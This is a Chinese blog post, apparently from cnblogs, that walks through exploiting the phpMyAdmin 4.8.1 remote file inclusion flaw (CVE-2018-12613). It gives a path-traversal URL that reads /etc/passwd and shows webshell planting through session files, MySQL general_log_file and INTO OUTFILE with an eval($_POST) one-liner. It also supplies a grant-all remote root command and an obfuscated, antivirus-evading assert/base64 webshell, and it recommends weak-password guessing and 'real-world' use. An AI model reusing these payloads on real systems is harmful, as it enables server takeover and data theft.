







# 18.phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613） - bmjoker - 博客园

> 原文：[`www.cnblogs.com/bmjoker/p/9897436.html`](https://www.cnblogs.com/bmjoker/p/9897436.html)

**phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）**

phpMyAdmin 是一套开源的、基于 Web 的 MySQL 数据库管理工具。其 index.php 中存在一处文件包含逻辑，

通过二次编码即可绕过检查，造成远程文件包含漏洞。

### 受影响版本:

phpMyAdmin 4.8.0 和 4.8.1 受到影响。

**漏洞复现：**

本次实验环境基于 docker 搭建，启动环境，使用一波 phpmyadmin 的弱口令，像

root/root，root/123456，root/toor....登进后台

不得不说 phpmyadmin 自从 2.x 版本有个前台登陆绕过后，到现在前台还没出现过其他的漏洞，

希望广大伙伴多多挖掘呀！！

使用弱口令 test/test ,成功登陆 phpmyadmin 后台：



访问 http://192.168.0.132:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd，

可见/etc/passwd 被读取，说明文件包含漏洞存在：


利用方式也比较简单，可以执行一下  SELECT '<?php phpinfo()?>'; ，然后查看自己的 sessionid（cookie 中 phpMyAdmin 的值）:


这样对应的 SESSION 文件为 /tmp/sess_sessionid

然后在网址中包含 session 文件即可：



可以看到顺利执行了 phpinfo();

可想而知如果我们 select 一个 php 一句话木马，用菜刀连接，整站就可以被我们控制。

.......

**实战演练：**

到 phpmyadmin 后台后，getshell 方法还很多，比如利用改变写入的日志的路径，写入我们的一句话木马，

首先呢，介绍两个 MySQL 全局变量（general_log、general_log file）

*   general log 指的是日志保存状态，一共有两个值（ON/OFF）ON 代表开启 OFF 代表关闭。
*   general log file 指的是日志的保存路径

mysql 5.0 版本以上会创建日志文件，修改日志的全局变量，也可以 getshell。但是也要对生成的日志有可读可写的权限。

查看日志状态：

```
`SHOW VARIABLES LIKE 'general%'`;
```



当 general_log=ON 时，所执行的 sql 语句都会出现在 /var/lib/mysql/1e164993aaf5.log 文件

那么，如果把 general_log_file 的路径修改为 /var/lib/mysql/1.php，那么所执行的 sql 语句就会保存在

1.php 中，如果我们执行一个 php 小马，就可以 getshell：

```
SET GLOBAL general_log='on'
```


```
SET GLOBAL general_log_file='D:/wwwroot/1.php'
```


如果输入不存在的路径时：


或许我们可以利用这个来探测目录结构，如果路径正确的话

这样的话在相应的目录下就会生成一个 1.php，由于我们是实战，所以无法截图...

再次查看日志的状态：



OK!!!满足要求！

将一句话木马写入 1.php 文件，既然是日志文件，我们 select 查询自然也会被保存在日志里面：

我们构造 ：select '<?php phpinfo();?>'



这时候相当于我们把 <?php phpinfo();?> 写入到日志 1.php 中，我们尝试访问

日志文件：1.php



成功 getshell!!!

-------------------------------------------------------

还有一种方法就是一句话木马的写入：

```
select '<?php eval($_POST[cmd]); ?>' into outfile 'D:/phpStudy/www/1.php';
```

当然，前提是你得知道网站的绝对路径，方法也有很多，比如通过报错获取路径，通过 phpinfo.php 等等

但在新版的 mysql 中，这句话并没有运行成功，应为 mysql 新特性 secure_file_priv 会对读写文件产生影响，

该参数用来限制导入导出，可以查看该参数：



当 secure_file_priv 为 NULL 时，表示限制 mysql 不允许导入导出。所以爆出错误


要想使得该语句导出成功，则需要在 mysql 文件夹下修改 my.ini 文件，

在[mysqld]内加入 secure_file_priv ="" 即可

当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制

此时就可以执行导出命令，这里不再复现

附一个数据库开启外链的命令：

```
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'root 密码' WITH GRANT OPTION;
```

附一个 SQL 查询免杀 shell 的语句

```
SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['bmjoker']));?>"
```